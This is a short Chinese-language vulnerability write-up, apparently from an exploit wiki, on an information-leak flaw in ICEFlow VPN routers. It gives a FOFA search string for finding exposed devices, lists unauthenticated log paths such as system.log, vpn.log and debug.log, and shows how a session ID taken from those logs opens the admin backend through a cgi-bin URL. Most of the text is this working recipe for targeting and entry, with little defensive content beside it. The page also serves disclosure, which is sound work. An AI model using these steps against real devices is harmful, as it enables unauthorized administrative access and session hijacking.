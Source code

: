 # ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

> [!NOTE]
>
> ICEFlow VPN

## FOFA

> [!NOTE]
>
> title="ICEFLOW VPN Router"

## 漏洞复现

可访问的日志 Url

```
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](http://wikioss.peiqi.tech/vuln/ice-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

根据日志信息获得session后，可利用实时登录系统管理后台：

```
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

## Goby & POC

> [!NOTE]
>
> ICEFlow VPN 信息泄露漏洞

![](http://wikioss.peiqi.tech/vuln/ice-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

https://www.uedbox.com/post/18720/